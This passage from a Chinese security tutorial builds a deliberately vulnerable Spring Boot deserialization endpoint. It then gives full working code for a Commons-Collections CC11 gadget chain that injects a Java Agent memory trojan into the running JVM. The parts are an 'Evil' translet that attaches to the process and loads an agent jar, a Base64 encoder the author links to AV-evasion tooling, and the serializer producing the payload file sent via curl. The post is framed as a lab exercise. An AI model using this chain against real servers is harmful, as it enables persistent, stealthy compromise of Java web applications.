SpringBoot下的一个含有Common-Collections3.2.1包的反序列化漏洞环境。
自己写了一个反序列化的
```java
package com.sf.zhuque;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.ObjectInputStream;

@Controller
public class Test {

    @ResponseBody
    @RequestMapping("/unser")
    public String unserialize(HttpServletRequest request, HttpServletResponse response) throws Exception {
        java.io.InputStream inputStream =  request.getInputStream();
        ObjectInputStream objectInputStream = new ObjectInputStream(inputStream);
        objectInputStream.readObject();
        return "Success!";
    }

    @ResponseBody
    @RequestMapping("/demo")
    public String demo(HttpServletRequest request, HttpServletResponse response) throws Exception{
        return "Hello,Sentiment!";
    }
}
```
在pom.xml中将Common-Collections3.2.1依赖添加进去就可以。
通过反序列化将agent.jar注入进去，像上面的命令注入那样，只不过需要做一些修改。
```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.lang.reflect.Method;
import java.net.URL;
import java.net.URLClassLoader;
import java.util.List;

public class Evil  extends AbstractTranslet {
    static {
        try{
            java.lang.String path = "D:\\Test\\Agent\\AgentJsp-jar-with-dependencies.jar";
            URL[] url = {new URL("file:///D:/Program Files/Java/jdk1.8.0_172/lib/tools.jar")};
            java.net.URLClassLoader classLoader = URLClassLoader.newInstance(url);
            Class<?> VirtualMachine = classLoader.loadClass("com.sun.tools.attach.VirtualMachine");
            Class<?> VirtualMachineDescriptor = classLoader.loadClass("com.sun.tools.attach.VirtualMachineDescriptor");
            Method listMethod = VirtualMachine.getDeclaredMethod("list",null);
            List<Object> list = (java.util.List<Object>) listMethod.invoke(VirtualMachine,null);

            for(int i=0;i<list.size();i++){
                Object o = list.get(i);
                Method displayName = VirtualMachineDescriptor.getDeclaredMethod("displayName",null);
                String name = (String) displayName.invoke(o,null);
                System.out.println(name);
				//自己的springboot运行路径
                if (name.contains("com.sf.agent.AgentApplication")){
                    Method getId = VirtualMachineDescriptor.getDeclaredMethod("id",null);
                    String id = (String) getId.invoke(o,null);
                    System.out.println("id => " + id);
                    Method attach = VirtualMachine.getDeclaredMethod("attach",new Class[]{java.lang.String.class});
                    Object vm = attach.invoke(o,new Object[]{id});
                    Method loadAgent = VirtualMachine.getDeclaredMethod("loadAgent",new Class[]{java.lang.String.class});
                    loadAgent.invoke(vm,new Object[]{path});
                    Method detach = VirtualMachine.getDeclaredMethod("detach",null);
                    detach.invoke(vm,null);
                    System.out.println("Inject Success!");
                    break;
                }
            }
        } catch (Exception e){
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```
编译成class文件，然后转换成base64编码
```java
import java.net.URI;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;

public class Util {
    public static void main(String[] args) throws Exception {
        URI uri = Util.class.getClassLoader().getResource("Evil.class").toURI();
        byte[] codeBytes = Files.readAllBytes(Paths.get(uri));
        String base = Base64.getEncoder().encodeToString(codeBytes);
		System.out.println(base);
    }
}
```
这个是之前康哥分享免杀马的时候用到的一个用来进行Base64编码加密的文件，借来用用。
得到编码后利用CC11进行注入
```java
package com.sf;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class CC11 {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        Class cc11 = templates.getClass();
        Field nameField = cc11.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates, "m0re");
        Field bytecodesField = cc11.getDeclaredField("_bytecodes");
        bytecodesField.setAccessible(true);
        //这里省略掉了，代码量有点多
        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAfwoAJQ.........AAAAAIAOQ==");
        byte[][] codes = {code};
        bytecodesField.set(templates, codes);
        Field tfactoryField = cc11.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates, new TransformerFactoryImpl());
        InvokerTransformer invokerTransformer = new InvokerTransformer("newTransformer", new Class[]{}, new Object[]{});
        HashMap<Object, Object> hashMap = new HashMap<>();
        Map lazyMap = LazyMap.decorate(hashMap, new ConstantTransformer("m0re"));
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, templates);
        HashMap<Object, Object> pocMap = new HashMap<>();
        pocMap.put(tiedMapEntry, "value");
        lazyMap.remove(templates);
        Class c = LazyMap.class;
        Field factoryField = c.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap, invokerTransformer);

        serialize(pocMap);
//        unserialize("agent.ser");

    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("agent.ser"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```
然后可以通过curl或者postman进行传入
看下后台
没有成功，看样子应该是tools.jar没有被加载进来。查一下.....
果然是我创建的项目没加载tools.jar。所以这里先手动添加下。然后再次运行项目，用agent.ser打一下
可以看到后台是成功了。
看下木马效果


## 参考文章

[https://www.yuque.com/tianxiadamutou/zcfd4v/tdvszq](https://www.yuque.com/tianxiadamutou/zcfd4v/tdvszq)
[https://goodapple.top/archives/1355](https://goodapple.top/archives/1355)
[https://exp10it.cn/2023/01/java-agent-%E5%86%85%E5%AD%98%E9%A9%AC](https://exp10it.cn/2023/01/java-agent-%E5%86%85%E5%AD%98%E9%A9%AC)
[https://www.freebuf.com/articles/web/323621.html](https://www.freebuf.com/articles/web/323621.html)
[http://www.bmth666.cn/bmth_blog/2022/11/16/Java-Agent%E5%86%85%E5%AD%98%E9%A9%AC%E5%AD%A6%E4%B9%A0/](http://www.bmth666.cn/bmth_blog/2022/11/16/Java-Agent%E5%86%85%E5%AD%98%E9%A9%AC%E5%AD%A6%E4%B9%A0/)
[https://blog.csdn.net/weixin_54902210/article/details/126353573](https://blog.csdn.net/weixin_54902210/article/details/126353573)
